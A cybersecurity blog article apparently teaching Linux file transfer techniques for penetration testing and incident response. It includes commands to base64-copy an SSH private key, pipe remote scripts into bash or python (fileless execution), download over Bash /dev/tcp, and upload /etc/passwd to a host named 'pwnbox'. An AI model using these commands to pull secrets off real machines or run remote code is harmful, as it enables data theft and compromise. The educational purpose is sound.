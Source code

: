 ```yaml
---
title: "Linux File Transfer Methods"
date: 2025-03-16
tags: [Linux, Security, File Transfer, Incident Response]
categories: [Cybersecurity, Linux]
pinned: false
---
```


Linux is a versatile operating system with many different tools for file transfers. Understanding these methods can help both attackers and defenders improve their skills for network security and incident response.

## Incident Response Case Study
A few years ago, during an incident response engagement, we discovered multiple threat actors across six of nine compromised web servers. The attackers exploited an SQL Injection vulnerability and used a Bash script to download additional malware connecting to their command and control (C2) server. Their script attempted three different download methods: `cURL`, `wget`, and `Python`, all using HTTP.

## File Transfer Methods Overview
While Linux supports various protocols like FTP and SMB, HTTP and HTTPS are the most commonly used for both legitimate and malicious file transfers. In this article, we will explore multiple file transfer techniques using:
- Base64 encoding/decoding
- `wget` and `cURL`
- Fileless execution
- Bash `/dev/tcp`
- SSH (`scp`)
- Web server-based transfers

## Base64 Encoding / Decoding
For small files, network communication may not be necessary. Instead, we can use Base64 encoding to copy and transfer data manually.

### Encoding a File to Base64
```bash
md5sum id_rsa
cat id_rsa | base64 -w 0; echo
```

### Decoding on the Target Machine
```bash
echo -n '<Base64 string>' | base64 -d > id_rsa
md5sum id_rsa
```

## Web Downloads with `wget` and `cURL`
These tools are widely used for web-based file transfers.

### Download Using `wget`
```bash
wget https://example.com/file.sh -O /tmp/file.sh
```

### Download Using `cURL`
```bash
curl -o /tmp/file.sh https://example.com/file.sh
```

## Fileless Attacks in Linux
Pipes allow execution of scripts directly from the web without writing to disk.

### Fileless Execution Using `cURL`
```bash
curl https://example.com/script.sh | bash
```

### Fileless Execution Using `wget`
```bash
wget -qO- https://example.com/script.py | python3
```

## Downloading Files with Bash (`/dev/tcp`)
If common tools are unavailable, Bash can be used to download files via `/dev/tcp`.

### Connect to a Web Server
```bash
exec 3<>/dev/tcp/10.10.10.32/80
```

### Send an HTTP GET Request
```bash
echo -e "GET /file.sh HTTP/1.1\n\n" >&3
cat <&3
```

## SSH Downloads (`scp`)
Securely copy files between systems using SSH.

### Enable and Start SSH Server
```bash
sudo systemctl enable ssh
sudo systemctl start ssh
```

### Transfer Files via `scp`
```bash
scp user@remote:/path/to/file .
```

## Upload Operations
We can upload files using similar methods to downloads.

### Web Upload with `curl`
```bash
curl -X POST https://pwnbox/upload -F 'files=@/etc/passwd' --insecure
```

### Hosting a Temporary Web Server
#### Python3 HTTP Server
```bash
python3 -m http.server 8000
```

#### PHP HTTP Server
```bash
php -S 0.0.0.0:8000
```

#### Ruby Web Server
```bash
ruby -run -e httpd . -p8000
```

### Uploading Files via `scp`
```bash
scp /etc/passwd user@remote:/path/to/destination
```

## Conclusion
Understanding Linux file transfer methods is crucial for both cybersecurity professionals and system administrators. These techniques are commonly used in penetration testing, incident response, and threat detection. By mastering these methods, defenders can better mitigate threats and attackers can refine their exploitation strategies.
